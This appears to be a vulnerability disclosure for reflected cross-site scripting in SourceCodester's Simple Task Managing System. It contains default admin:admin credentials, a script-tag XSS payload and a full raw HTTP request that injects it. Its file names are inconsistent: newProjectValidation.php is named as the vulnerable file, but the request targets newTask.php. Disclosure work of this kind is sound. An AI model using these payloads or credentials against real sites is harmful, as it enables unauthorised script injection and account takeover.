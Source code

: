 # Simple Task Managing System - XSS2

A vulnerability classified as problematic was found in SourceCodester Simple Task Managing System. This vulnerability affects unknown code. The manipulation of the argument newProjectValidation.php leads to cross site scripting. The attack can be initiated remotely.

username:admin password:admin ----> {ip}/newProjectValidation.php

Supplier： https://www.sourcecodester.com/php/15624/simple-task-managing-system-php-mysqli-free-source-code.html

/newProjectValidation.php has XSS

> Payload: "><ScRiPt>alert(1)</sCrIpT>

XSS because $full can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/1.png)

## Payload

```sql
GET http://localhost/cve/Task%20Managing%20System%20in%20PHP/newTask.php?sn=%3CsCrIpT%3Ealert(1)%3C/sCrIpT%3E HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="94"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=34a9idaoj7m7miduqt31hupisn
Connection: close
```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/4.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/5.png)